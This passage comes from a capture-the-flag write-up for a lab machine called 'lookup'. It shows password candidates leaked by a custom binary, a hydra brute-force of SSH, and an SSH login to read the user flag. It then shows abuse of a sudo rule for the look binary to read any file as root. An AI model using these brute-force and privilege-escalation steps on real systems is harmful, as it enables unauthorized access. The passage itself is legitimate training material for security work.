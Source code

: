 ```console
www-data@lookup:/tmp$ /usr/sbin/pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: think
jose1006
...
jose.2856171
```

### Brute-forcing the Password

Now that we have a list of possible passwords for the `think` user, we can use `hydra` to test them against the `SSH` service to see if any of them is valid.

```console
$ hydra -l think -P passwords.txt ssh://lookup.thm
...
[22][ssh] host: lookup.thm   login: think   password: jo[REDACTED]k)
1 of 1 target successfully completed, 1 valid password found
```

Since we discovered a valid password, we can use **SSH** to obtain a shell as the `think` user and read the user flag at `/home/think/user.txt`.

```console
$ ssh think@lookup.thm
...
think@lookup:~$ wc -c user.txt
33 user.txt
```

## Shell as root

### Sudo Privilege

Checking the `sudo` privileges for the `think` user, we can see that we are able to run the `look` binary as `root`.

```console
think@lookup:~$ sudo -l
[sudo] password for think:
Matching Defaults entries for think on lookup:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User think may run the following commands on lookup:
    (ALL) /usr/bin/look
```

The `look` binary is similar to `grep` in a sense that its main purpose is to search for lines in a file beginning with a specified string. If it finds any lines that start with the specified string, it prints them.

We can turn this into **arbitrary file read** by specifying the string to search as an empty string, which means every line in the file will match, and it will print the contents of the whole file. We can also see [this method mentioned here in GTFOBins](https://gtfobins.github.io/gtfobins/look/#suid).
